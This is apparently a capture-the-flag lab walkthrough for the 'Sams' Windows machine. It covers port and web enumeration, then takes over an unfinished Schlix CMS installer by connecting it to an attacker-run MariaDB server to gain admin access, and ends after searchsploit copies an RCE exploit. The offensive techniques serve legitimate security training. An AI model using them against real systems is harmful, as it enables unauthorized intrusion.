






# Sams

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Very hard
OS: Windows
Points: 5
Description:
Deploy enumeration and web enumeration techniques to discover system vulnerabilities. Capitalize 
on exploiting Schilix to gain an initial foothold. Implement privilege escalation tactics and 
use hive dumping to extract critical information. This lab is designed to harness your 
exploitation and privilege escalation skills.
Released: 28 Mar 2023
```

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ export TARGET_IP=192.168.202.248

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ sudo nmap -sV -sC -p- $TARGET_IP 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-19 13:36 CEST
Nmap scan report for 192.168.202.248
Host is up (0.037s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/7.3.29)
|_http-title: Sam Elliot | Web Designer
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29
| http-methods: 
|_  Potentially risky methods: TRACE
443/tcp  open  ssl/http      Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/7.3.29)
|_http-title: Sam Elliot | Web Designer
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.24 or later (unauthorized)
7680/tcp open  pando-pub?

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-19T11:38:52
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 192.29 seconds
```

We have three services running:

- Apache httpd 2.4.48 running on port 80 and 443
- SMB running on port 445
- MariaDB running on port 3306
- Unknown service running on port 7680

### Check the web site

Browsing manually to port 80 shows an `About Me` page for the Web Designer `Sam Elliot`.


Running `whatweb` gives us the following information:

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ whatweb -a3 $TARGET_IP
http://192.168.202.248 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29], IP[192.168.202.248], JQuery, Lightbox, OpenSSL[1.1.1k], PHP[7.3.29], Script, Title[Sam Elliot | Web Designer]
```

Let's do a `gobuster` scan to search for additional files and directories as well

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP                 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.202.248
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 305]
/index.html           (Status: 200) [Size: 17938]
/assets               (Status: 200) [Size: 1608]
/Index.html           (Status: 200) [Size: 17938]
/examples             (Status: 503) [Size: 405]
/testing              (Status: 200) [Size: 70]
/vendor               (Status: 200) [Size: 1199]
/licenses             (Status: 403) [Size: 424]
/%20                  (Status: 403) [Size: 305]
/Assets               (Status: 200) [Size: 1608]
/INDEX.html           (Status: 200) [Size: 17938]
/*checkout*.html      (Status: 403) [Size: 305]
/*checkout*           (Status: 403) [Size: 305]
/*checkout*.php       (Status: 403) [Size: 305]
/*checkout*.txt       (Status: 403) [Size: 305]
/phpmyadmin           (Status: 403) [Size: 424]
/webalizer            (Status: 403) [Size: 424]
/Testing              (Status: 200) [Size: 70]
/*docroot*.txt        (Status: 403) [Size: 305]
/*docroot*.php        (Status: 403) [Size: 305]
/*docroot*            (Status: 403) [Size: 305]
/*docroot*.html       (Status: 403) [Size: 305]
/*.php                (Status: 403) [Size: 305]
<---snip--->
/%22julie%20roehm%22.php (Status: 403) [Size: 305]
/%22julie%20roehm%22.txt (Status: 403) [Size: 305]
/%22james%20kim%22    (Status: 403) [Size: 305]
/%22james%20kim%22.php (Status: 403) [Size: 305]
/%22julie%20roehm%22.html (Status: 403) [Size: 305]
/%22james%20kim%22.txt (Status: 403) [Size: 305]
/%22james%20kim%22.html (Status: 403) [Size: 305]
/%22britney%20spears%22 (Status: 403) [Size: 305]
/%22britney%20spears%22.txt (Status: 403) [Size: 305]
/%22britney%20spears%22.php (Status: 403) [Size: 305]
/%22britney%20spears%22.html (Status: 403) [Size: 305]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Trying to access `http://192.168.202.248/vendor/` shows that directory listing is enabled.  
However, nothing of interest is found in the file hierarchy.

Trying to access `http://192.168.202.248/testing/` shows the message `There is no website configured at this address: http://192.168.202.248`.

Let's check the `testing`-directory for additional files and directories, this time with `feroxbuster`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -C 404 -x html,php,txt -u http://$TARGET_IP/testing/
                                                                                                                                                                                        
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.202.248/testing/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [html, php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        1l        9w       70c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       30w      305c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       30w      349c http://192.168.202.248/testing/web => http://192.168.202.248/testing/web/
200      GET       37l      847w     5660c http://192.168.202.248/testing/license.html
301      GET        9l       30w      352c http://192.168.202.248/testing/system => http://192.168.202.248/testing/system/
301      GET        9l       30w      353c http://192.168.202.248/testing/install => http://192.168.202.248/testing/install/
200      GET       37l      827w     5110c http://192.168.202.248/testing/license.txt
301      GET        9l       30w      354c http://192.168.202.248/testing/web/main => http://192.168.202.248/testing/web/main/
200      GET        1l        2w       12c http://192.168.202.248/testing/robots.txt
301      GET        9l       30w      354c http://192.168.202.248/testing/web/Main => http://192.168.202.248/testing/web/Main/
301      GET        9l       30w      353c http://192.168.202.248/testing/INSTALL => http://192.168.202.248/testing/INSTALL/
200      GET        6l      458w    39680c http://192.168.202.248/testing/system/skins/bootstrap3/bootstrap.min.js
200      GET       46l      245w    15425c http://192.168.202.248/testing/system/images/schlixlogo.png
200      GET       90l      416w    45704c http://192.168.202.248/testing/system/themes/admindefault/icons/favicon.ico
200      GET        1l      878w    36067c http://192.168.202.248/testing/system/fonts/font-awesome/font-awesome.min.css
200      GET       24l     6605w   782474c http://192.168.202.248/testing/system/js/schlix-ui/schlix-ui.minified.js
301      GET        9l       30w      359c http://192.168.202.248/testing/web/main/apps => http://192.168.202.248/testing/web/main/apps/
301      GET        9l       30w      349c http://192.168.202.248/testing/Web => http://192.168.202.248/testing/Web/
301      GET        9l       30w      366c http://192.168.202.248/testing/web/main/data/public => http://192.168.202.248/testing/web/main/data/public/
301      GET        9l       30w      360c http://192.168.202.248/testing/web/main/media => http://192.168.202.248/testing/web/main/media/
301      GET        9l       30w      361c http://192.168.202.248/testing/web/main/themes => http://192.168.202.248/testing/web/main/themes/
301      GET        9l       30w      359c http://192.168.202.248/testing/system/themes => http://192.168.202.248/testing/system/themes/
301      GET        9l       30w      359c http://192.168.202.248/testing/web/main/data => http://192.168.202.248/testing/web/main/data/
200      GET     1235l     8578w    86195c http://192.168.202.248/testing/install/index.php
301      GET        9l       30w      360c http://192.168.202.248/testing/web/Main/media => http://192.168.202.248/testing/web/Main/media/
200      GET       37l      847w     5660c http://192.168.202.248/testing/LICENSE.html
200      GET       39l      129w     1511c http://192.168.202.248/testing/system/fonts/open-sans/open-sans.css
200      GET        2l       76w    12076c http://192.168.202.248/testing/system/js/jstz/jstz.min.js
200      GET      197l      690w     8451c http://192.168.202.248/testing/INSTALL/install.css
200      GET      178l      492w     6525c http://192.168.202.248/testing/INSTALL/install.js
200      GET     1659l     5956w    86694c http://192.168.202.248/testing/INSTALL/install-bootstrap.css
200      GET     1235l     8578w    86195c http://192.168.202.248/testing/INSTALL/index.php
200      GET        5l     1451w   108955c http://192.168.202.248/testing/system/skins/bootstrap3/bootstrap.min.css
301      GET        9l       30w      359c http://192.168.202.248/testing/system/Images => http://192.168.202.248/testing/system/Images/
301      GET        9l       30w      361c http://192.168.202.248/testing/web/Main/themes => http://192.168.202.248/testing/web/Main/themes/
301      GET        9l       30w      367c http://192.168.202.248/testing/web/main/media/images => http://192.168.202.248/testing/web/main/media/images/
301      GET        9l       30w      369c http://192.168.202.248/testing/web/main/media/articles => http://192.168.202.248/testing/web/main/media/articles/
200      GET       37l      827w     5110c http://192.168.202.248/testing/LICENSE.txt
301      GET        9l       30w      364c http://192.168.202.248/testing/web/main/data/user => http://192.168.202.248/testing/web/main/data/user/
301      GET        9l       30w      357c http://192.168.202.248/testing/system/apps => http://192.168.202.248/testing/system/apps/
301      GET        9l       30w      370c http://192.168.202.248/testing/web/main/media/downloads => http://192.168.202.248/testing/web/main/media/downloads/
301      GET        9l       30w      365c http://192.168.202.248/testing/web/main/media/docs => http://192.168.202.248/testing/web/main/media/docs/
301      GET        9l       30w      359c http://192.168.202.248/testing/web/Main/data => http://192.168.202.248/testing/web/Main/data/
301      GET        9l       30w      369c http://192.168.202.248/testing/web/Main/media/articles => http://192.168.202.248/testing/web/Main/media/articles/
301      GET        9l       30w      367c http://192.168.202.248/testing/web/Main/media/images => http://192.168.202.248/testing/web/Main/media/images/
301      GET        9l       30w      354c http://192.168.202.248/testing/Web/main => http://192.168.202.248/testing/Web/main/
301      GET        9l       30w      362c http://192.168.202.248/testing/system/apps/blog => http://192.168.202.248/testing/system/apps/blog/
301      GET        9l       30w      364c http://192.168.202.248/testing/system/apps/search => http://192.168.202.248/testing/system/apps/search/
200      GET        1l        3w       14c http://192.168.202.248/testing/system/js/
301      GET        9l       30w      360c http://192.168.202.248/testing/Web/main/cache => http://192.168.202.248/testing/Web/main/cache/
301      GET        9l       30w      364c http://192.168.202.248/testing/web/Main/data/User => http://192.168.202.248/testing/web/Main/data/User/
301      GET        9l       30w      361c http://192.168.202.248/testing/web/main/macros => http://192.168.202.248/testing/web/main/macros/
301      GET        9l       30w      365c http://192.168.202.248/testing/web/main/media/DOCS => http://192.168.202.248/testing/web/main/media/DOCS/
301      GET        9l       30w      349c http://192.168.202.248/testing/WEB => http://192.168.202.248/testing/WEB/
301      GET        9l       30w      367c http://192.168.202.248/testing/system/Images/DEFAULT => http://192.168.202.248/testing/system/Images/DEFAULT/
[####################] - 9m   9466932/9466932 0s      found:53      errors:2277340
[####################] - 2m    350600/350600  3385/s  http://192.168.202.248/testing/ 
[####################] - 2m    350600/350600  3626/s  http://192.168.202.248/testing/web/ 
[####################] - 2m    350600/350600  3378/s  http://192.168.202.248/testing/web/main/ 
[####################] - 2m    350600/350600  3421/s  http://192.168.202.248/testing/system/ 
[####################] - 2m    350600/350600  3415/s  http://192.168.202.248/testing/install/ 
[####################] - 2m    350600/350600  3786/s  http://192.168.202.248/testing/web/Main/ 
[####################] - 86s   350600/350600  4098/s  http://192.168.202.248/testing/INSTALL/ 
[####################] - 84s   350600/350600  4185/s  http://192.168.202.248/testing/Web/ 
[####################] - 78s   350600/350600  4505/s  http://192.168.202.248/testing/web/main/media/ 
[####################] - 81s   350600/350600  4338/s  http://192.168.202.248/testing/web/main/themes/ 
[####################] - 88s   350600/350600  3984/s  http://192.168.202.248/testing/web/main/data/ 
[####################] - 88s   350600/350600  3996/s  http://192.168.202.248/testing/system/js/ 
[####################] - 80s   350600/350600  4357/s  http://192.168.202.248/testing/web/main/apps/ 
[####################] - 2m    350600/350600  3565/s  http://192.168.202.248/testing/system/themes/ 
[####################] - 72s   350600/350600  4899/s  http://192.168.202.248/testing/web/Main/media/ 
[####################] - 80s   350600/350600  4378/s  http://192.168.202.248/testing/system/Images/ 
[####################] - 80s   350600/350600  4407/s  http://192.168.202.248/testing/system/themes/admindefault/ 
[####################] - 79s   350600/350600  4413/s  http://192.168.202.248/testing/web/Main/themes/ 
[####################] - 71s   350600/350600  4955/s  http://192.168.202.248/testing/system/apps/ 
[####################] - 76s   350600/350600  4607/s  http://192.168.202.248/testing/web/Main/data/ 
[####################] - 74s   350600/350600  4718/s  http://192.168.202.248/testing/Web/main/ 
[####################] - 74s   350600/350600  4754/s  http://192.168.202.248/testing/system/apps/blog/ 
[####################] - 67s   350600/350600  5251/s  http://192.168.202.248/testing/system/apps/search/ 
[####################] - 70s   350600/350600  4981/s  http://192.168.202.248/testing/Web/main/cache/ 
[####################] - 68s   350600/350600  5190/s  http://192.168.202.248/testing/web/main/macros/ 
[####################] - 7m    350600/350600  868/s   http://192.168.202.248/testing/WEB/ 
[####################] - 8m    350600/350600  766/s   http://192.168.202.248/testing/system/Images/DEFAULT/  
```

Going through the above list we find `http://192.168.202.248/testing/install` which displays a [schlix](https://www.schlix.com/) installation page



It shows installation step 1 of 5. Perhaps we can continue the installation?

Also note that the version we are about to install is `v2.2.6`.

### Start the installation

**Step 1** - Welcome

Select `Yes, I agree and would like to continue installing this software` and click `Submit`

**Step 2** - System Requirement  

The installation process require a database, so we need to set one up.

### Setup and configure a local database

To install MariaDB, we follow [the installation instructions](https://mariadb.com/get-started-with-mariadb/).

```bash
┌──(kali㉿kali)-[~]
└─$ sudo apt install mariadb-server mariadb-client
<---snip--->

┌──(kali㉿kali)-[~]
└─$ sudo systemctl start mysql

┌──(kali㉿kali)-[~]
└─$ sudo mariadb-secure-installation

NOTE: MariaDB is secure by default in Debian. Running this script is
      useless at best, and misleading at worst. This script will be
      removed in a future MariaDB release in Debian. Please read
      mariadb-server.README.Debian for details.

Enter root user password or leave blank:

Enter current password for root (enter for none): 
OK, successfully used password, moving on...

Setting the root password or using the unix_socket ensures that nobody
can log into the MariaDB root user without the proper authorisation.

You already have your root account protected, so you can safely answer 'n'.

Switch to unix_socket authentication [Y/n] y
Enabled successfully (or at least no errors was emitted)!
Reloading privilege tables..
 ... Success!


You already have your root account protected, so you can safely answer 'n'.

Change the root password? [Y/n] y
New password: 
Re-enter new password: 
Password updated successfully!
Reloading privilege tables..
 ... Success!


By default, a MariaDB installation has an anonymous user, allowing anyone
to log into MariaDB without having to have a user account created for
them.  This is intended only for testing, and to make the installation
go a bit smoother.  You should remove them before moving into a
production environment.

Remove anonymous users? [Y/n] y
SQL executed without errors!
The operation might have been successful, or it might have not done anything.

Normally, root should only be allowed to connect from 'localhost'.  This
ensures that someone cannot guess at the root password from the network.

Disallow root login remotely? [Y/n] n
 ... skipping.

By default, MariaDB comes with a database named 'test' that anyone can
access.  This is also intended only for testing, and should be removed
before moving into a production environment.

Remove test database and access to it? [Y/n] y
 - Dropping test database...
SQL executed without errors!
The operation might have been successful, or it might have not done anything.
 - Removing privileges on test database...
SQL executed without errors!
The operation might have been successful, or it might have not done anything.

Reloading the privilege tables will ensure that all changes made so far
will take effect immediately.

Reload privilege tables now? [Y/n] y
 ... Success!

Cleaning up...

All done!  If you've completed all of the above steps, your MariaDB
installation should now be secure.

Thanks for using MariaDB!
```

We verify that we can access the database locally and create an `offsec` database

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ mariadb -u root -p       
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 11.8.3-MariaDB-1+b1 from Debian -- Please help get to 10k stars at https://github.com/MariaDB/Server

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE DATABASE offsec;
Query OK, 1 row affected (0.001 sec)

MariaDB [(none)]> \q
Bye
```

Next, we change so the database is available through our VPN interface

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ sudo vi /etc/mysql/mariadb.conf.d/50-server.cnf

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ grep bind /etc/mysql/mariadb.conf.d/50-server.cnf
bind-address            = 192.168.45.171
```

Finally, we restart the service

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ sudo systemctl restart mysql
```

Trying to connect with `root` didn't work so another user was created:

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ mariadb -u root -p                        
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 11.8.3-MariaDB-1+b1 from Debian-log -- Please help get to 10k stars at https://github.com/MariaDB/Server

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE USER 'offsec'@'%' IDENTIFIED BY 'offsec';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> GRANT ALL PRIVILEGES ON offsec.* TO 'offsec'@'%';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> \q
Bye
```

### Continue the installation

**Step 2** - System Requirement

We fill in our newly created user and press `Test it`



Successfully connected!

So we click `Continue installation`.

**Step 3** - Configuration

We set a Site name of `Site`, an Admin password of `Password123!` and click on `Submit`.

**Step 4** - Database

We select `Company profile only (no sample data)` and click on `Submit`.

**Step 5** - Finish

Then the installation is finished!



### Login to schlix as admin

Now we can login with `admin:Password123!` at `http://192.168.202.248/testing/admin/`


Once logged in, we remove the installation directory as instructed.

Browsing around no obvious way forward was identified.

Let's search for available exploits instead.

### Search for exploits

Searching for exploits, we find a RCE that match the identified version (`v2.2.6`)

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ searchsploit schlix         
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Schlix CMS 2.2.6-6 - 'title' Persistent Cross-Site Scripting (Authenticated)                                                                          | multiple/webapps/49837.txt
Schlix CMS 2.2.6-6 - Arbitary File Upload (Authenticated)                                                                                             | multiple/webapps/49897.txt
Schlix CMS 2.2.6-6 - Remote Code Execution (Authenticated)                                                                                            | multiple/webapps/49838.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ searchsploit -m 49838           
  Exploit: Schlix CMS 2.2.6-6 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49838
     Path: /usr/share/exploitdb/exploits/multiple/webapps/49838.txt
    Codes: N/A
 Verified: False
File Type: Unicode text, UTF-8 text, with very long lines (326)
Copied to: /mnt/hgfs/OffSec_PG/PG_Play/Sams/49838.txt

